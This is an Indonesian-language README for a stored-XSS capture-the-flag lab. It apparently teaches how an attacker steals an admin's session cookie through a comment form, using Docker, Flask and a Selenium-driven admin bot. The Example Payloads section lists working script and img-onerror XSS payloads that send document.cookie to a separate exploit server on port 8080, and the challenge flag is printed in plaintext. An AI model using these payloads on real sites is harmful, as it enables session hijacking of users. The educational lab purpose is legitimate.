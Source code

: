 # XSS02 - Stored XSS Challenge

## Deskripsi

Challenge ini mendemonstrasikan kerentanan **Stored XSS (Cross-Site Scripting)**. Stored XSS terjadi ketika input berbahaya disimpan di server dan dieksekusi setiap kali halaman yang mengandung data tersebut dimuat.

## Objective

Eksploitasi kerentanan Stored XSS untuk mencuri cookie session admin dan mendapatkan flag.

## Flag

**AKAMSI{st0r3d_xss_c4n_st34l_c00k13s_4nd_s3ss10ns}**

## Setup

### Menggunakan Docker Compose (Recommended)

```bash
# Build dan jalankan semua services
docker-compose up --build

# Challenge akan tersedia di:
# - Main app: http://localhost:5012
# - Exploit server: http://localhost:8080
# - Selenium Grid: http://localhost:4444
# - VNC viewer (debugging): http://localhost:7900
```

### Manual Build

```bash
# Build Docker image
docker build -t xss02-stored .

# Jalankan dengan Selenium Grid terpisah
docker run -d --name selenium-chrome selenium/standalone-chrome:latest
docker run -p 5012:5012 -p 8080:8080 --link selenium-chrome xss02-stored
```

## Cara Bermain

1. Akses aplikasi di `http://localhost:5012`
2. Explore sistem komentar dan coba posting komentar
3. Perhatikan bahwa admin akan mengunjungi halaman setelah Anda posting komentar
4. Craft XSS payload yang akan mencuri cookie admin
5. Submit komentar dengan payload XSS
6. Check exploit server logs di `http://localhost:5012/exploit_server`
7. Temukan flag dalam cookie yang tercuri

## Attack Flow

1. **Post Malicious Comment**: Submit komentar dengan JavaScript payload
2. **Admin Simulation**: Admin otomatis mengunjungi halaman (simulasi)
3. **XSS Execution**: Payload dieksekusi di browser admin
4. **Data Exfiltration**: Cookie admin dikirim ke exploit server
5. **Flag Capture**: Flag ditemukan dalam cookie yang tercuri

## Example Payloads

```javascript
// Basic alert test
<script>alert('XSS')</script>

// Cookie stealing
<script>fetch('http://localhost:8080?cookie=' + document.cookie)</script>

// Image tag with onerror
<img src=x onerror="window.open('http://localhost:8080?data=' + btoa(document.cookie))">

// Fetch with base64 encoding
<script>fetch('http://localhost:8080?stolen=' + btoa(document.cookie))</script>
```

## Learning Points

- **Stored XSS**: Payload disimpan di database dan dieksekusi berulang kali
- **Persistence**: Berbeda dengan reflected XSS, stored XSS bersifat persisten
- **Impact**: Dapat mencuri cookie, session, atau melakukan aksi atas nama user
- **Exploit Server**: Teknik umum untuk menerima data yang dicuri
- **Session Hijacking**: Menggunakan cookie yang dicuri untuk impersonasi

## Technical Details

- Framework: Flask (Python) + SQLite
- Port: 5012 (main app), 8080 (exploit server)
- VPN: Optional OpenVPN support
- Database: SQLite untuk menyimpan komentar
- Browser: Selenium Grid dengan Chrome standalone
- Selenium: Remote WebDriver automation untuk realistic user behavior
- Architecture: Multi-container dengan dedicated Selenium service

## Exploit Server

Challenge ini menyediakan exploit server sederhana di port 8080 yang:
- Mencatat semua request yang masuk
- Menampilkan data yang tercuri dalam format yang mudah dibaca
- Mendeteksi flag dalam cookie yang tercuri
- Menyediakan endpoint untuk menerima data exfiltration

## Hints

- Admin akan mengunjungi halaman komentar 3 detik setelah Anda posting
- Cookie admin mengandung flag yang Anda cari
- Gunakan `document.cookie` untuk mengakses cookie
- Exploit server menerima data via query parameter
- Check developer tools untuk debugging XSS payload

**Note**: Challenge ini aman untuk pembelajaran - hanya berjalan di environment terisolasi dengan admin simulation.